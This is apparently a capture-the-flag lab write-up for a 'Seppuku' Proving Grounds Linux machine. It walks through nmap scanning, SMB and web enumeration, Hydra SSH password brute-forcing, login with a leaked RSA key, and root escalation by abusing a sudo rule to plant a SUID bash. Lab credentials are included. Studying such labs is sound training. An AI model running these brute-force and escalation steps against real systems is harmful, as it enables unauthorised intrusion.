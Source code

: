 ```yaml
---
layout: default
title: Seppuku
parent: Proving Grounds - Linux
nav_order: 1
---
```


# Seppuku

---

## Host Info

- **OS**: Linxu
- **Hostname**: seppuku
- **IP**: 192.168.166.90

## Discovered Ports for Enumeration

- 21 - FTP
- 22 - SSH
- 80 - HTTP
- 445 - SMB
- 7080 - ssl empoweri
- 7601 - HTTP
- 8088 - HTTP

## Users and Credentials

- **Users**: seppuku, samurai, tanto
- **Credentials**: seppuku:eeyoree, samurai:12345685213456!@!@A

# Scanning (Nmap)

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open 192.168.166.90
```

# Enumeration

---

## 21 - FTP

Anonymous logon not allowed

## 80 - HTTP

Nothing useful

## 445 - SMB

### Enum4linux

Discovers three user accounts:

- seppuku
- samurai
- tanto

![seppuku_users](../../../assets/images/ctfs/proving_grounds/seppuku/seppuku_users.png)

## 7601 - HTTP

wfuzz discovered /secret directory

![secret](../../../assets/images/ctfs/proving_grounds/seppuku/secret.png)

"password.lst" contains potential user passwords for target machine.

![password_list](../../../assets/images/ctfs/proving_grounds/seppuku/password_list.png)

wfuzz also discovered the /keys directory which contains an RSA private key

![private](../../../assets/images/ctfs/proving_grounds/seppuku/private.png)

# Exploitation

---

## Hydra password cracking

Run Hydra against the user accounts discovered by Enum4Linux and the passwords discovered in the /secrets directory

```bash
hydra -L users -P passwords ssh://192.168.166.90
```

Get the credential _seppuku:eeyoree_

![hydra](../../../assets/images/ctfs/proving_grounds/seppuku/hydra.png)

## Authenticate with RSA key

Authentication with RSA private key discovered in the /keys directory works with "tanto" user

```bash
ssh -i id_rsa tanto@192.168.166.90
```

![tanto_ssh](../../../assets/images/ctfs/proving_grounds/seppuku/tanto_ssh.png)

# Post-Exploitation

---

## Enumerate user directories

Locate _.passwd_ file located in /home/seppuku directory.

samurai:12345685213456!@!@A
{: .warn }

## sudo -l

The "samurai" user can run the following command with sudo privileges and no password:

```bash
/../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

![sudo_l](../../../assets/images/ctfs/proving_grounds/seppuku/sudo_l.png)

We can exploit this with the following steps:

1. ssh as "tanto"
2. create directory .cgi_bin
3. create "bin" file in /.cgi_bin
4. make "bin" executable
5. switch back to "samurai" user
6. execute the sudo command to create /var/tmp/bash
7. execute /var/tmp/bash and get root privileges

### SSH as tanto user

We discovered the id_rsa private key for "tanto" during enumeration

```bash
ssh -i id_rsa tanto@192.168.166.90
```

### Create /.cgi_bin/bin

```bash
mkdir .cgi_bin
cd .cgi_bin
nano bin
```

![bin_file](../../../assets/images/ctfs/proving_grounds/seppuku/bin_file.png)

Make "bin" executable

```bash
chmod +x bin
```

### Execute sudo command as samurai user

Reauthenticate as the "samurai" user and execute the privileged sudo command

```bash
/../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

### Run bash binary and get root privileges

```bash
cd /var/tmp
./bash -p
```

![root](../../../assets/images/ctfs/proving_grounds/seppuku/root.png)
